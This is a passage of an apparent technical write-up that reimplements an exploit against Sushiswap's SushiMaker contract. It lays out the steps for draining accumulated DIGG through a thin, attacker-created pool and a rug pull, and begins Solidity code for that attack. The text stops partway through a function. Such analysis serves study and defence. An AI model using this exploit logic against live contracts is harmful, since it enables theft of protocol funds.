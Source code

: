 #### Exploit

With this knowledge, the exploit idea is clear:

1. Create the missing `DIGG <> WETH` pair.
2. Provide a tiny amount of liquidity, creating a very illiquid pool.
3. Call the `SushiMaker.convert(DIGG, WBTC)` function to trade all accumulated `DIGG` in the shallow pool. The SushiMaker contract ends up trading a large number of `DIGG` tokens for a negligible amount of `WETH`.
4. Rug pull: Withdraw all liquidity again. The attacker receives the `DIGG` from the SushiMaker trade.
5. Sell `DIGG` in the more liquid `DIGG <> WBTC` pair.

Let's reimplement these steps.

## Implementation

An important thing to note is that the `SushiMaker.convert` function performing the trade may only be called by externally-owned accounts (EOAs):

```solidity
modifier onlyEOA() {
    // Try to make flash-loan exploit harder to do.
    require(msg.sender == tx.origin, "SushiMaker: must use EOA");
    _;
}

function convert(address token0, address token1) external onlyEOA() {
    _convert(token0, token1);
}
```

Therefore, we cannot create a contract that performs all exploit steps in a single transaction.
This makes the exploit risky because after having the SushiMaker trade in the illiquid pool, generalized frontrunners or arbitrage bots might pick up on this arbitrage opportunity and front-run the final rug pull.
(It wouldn't be the first time that a generalized frontrunner bot performs a whitehack.)
As we just want to confirm this attack in a local environment, we simply ignore this.

#### Creating the missing WETH pool and adding liquidity

Anyone can create a pair in Sushiswap, so this is straight forward.
To provide liquidity, both tokens of the pair must be acquired, which means we need `WETH` and `DIGG`.
We get `WETH` by depositing `ETH`, and we can get `DIGG` by trading `WETH -> WBTC -> DIGG`.
We call `WBTC` the `wethBridgeToken` in this case as this token, out of the vulnerable `DIGG - WBTC` pair, is the one that already has an existing `WETH` bridge.

```solidity
function createAndProvideLiquidity(
    IERC20 wethBridgeToken, // WBTC
    IERC20 nonWethBridgeToken // DIGG
) external payable returns (IUniswapV2Pair pair) {
    // first acquire both tokens for vulnerable pair
    // we assume one token of the pair has a WETH pair
    // deposit all ETH for WETH
    // trade WETH/2 -> wethBridgeToken -> nonWethBridgeToken
    WETH.deposit{value: msg.value}();
    WETH.approve(address(sushiRouter), msg.value);
    address[] memory path = new address[](3);
    path[0] = address(WETH);
    path[1] = address(wethBridgeToken);
    path[2] = address(nonWethBridgeToken);
    uint256[] memory swapAmounts =
        sushiRouter.swapExactTokensForTokens(
            msg.value / 2,
            0,
```